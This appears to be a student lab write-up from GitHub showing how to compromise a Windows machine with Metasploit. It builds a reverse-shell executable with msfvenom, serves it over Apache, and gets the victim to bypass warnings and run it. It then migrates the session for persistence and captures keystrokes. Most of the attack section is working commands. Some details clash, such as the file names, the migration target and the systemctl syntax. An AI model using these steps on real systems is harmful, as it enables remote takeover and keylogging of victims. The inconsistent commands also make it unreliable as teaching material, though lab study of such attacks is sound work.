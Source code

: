 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

PROGRAM:
Find the attackers ip address using ifconfig
OUTPUT:

![Screenshot 2024-04-28 123654](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/b1b123a4-7669-4ca1-9ebd-795d420e1811)

Create a malicious executable file fun.exe using msenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > malware.exe

OUTPUT:

![Screenshot 2024-04-28 123805](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/f5a37ea4-0eb2-48c5-8f56-5bb6cdd35de5)

copy the malware.exe into the apache /var/www/html folder

![Screenshot 2024-04-28 123853](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/3fb5186a-755a-4fd1-a084-b2d2ef22f827)

Start apache server

sudo systemctl apache2 start

![Screenshot 2024-04-28 123955](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/c7d742d5-955b-48a9-b759-bc185285d9db)

Check the status of apache2

![Screenshot 2024-04-28 124100](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/e78ca036-bbb6-453f-8f86-74ddce4fdb34)

Invoke msfconsole:

![Screenshot 2024-04-28 124215](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/08e1fc5a-c2f0-455d-88fe-2fbcc9a0827b)

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server

use multi/handler

![Screenshot 2024-04-28 124255](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/57c5d6bd-0b56-4856-abaf-20904a94ceb4)

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads.

![Screenshot 2024-04-28 124342](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/ff67ae0a-d557-4023-955d-daed09c56c17)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-04-28 124427](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/929d9d97-03d5-4268-80f1-e9a2c13589ff)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps ⇒ can see the fun.exe process running with pid 1156

![Screenshot 2024-04-28 124537](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/b7150f2d-82fe-4e89-b468-b67ce9137f57)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2024-04-28 124632](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/1a2ce2f0-ece5-40ed-8afd-0d33a02c7507)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start Begins capturing keys typed in the target.

On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-04-28 124723](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/4d4302cf-2752-4bbf-b716-474e382fe276)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2024-04-28 124812](https://github.com/22008496/Compromising-windows-using-Metasploit/assets/119476113/9c069abc-7f0e-4a6b-ad29-f4af8c53d2cf)



















































## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
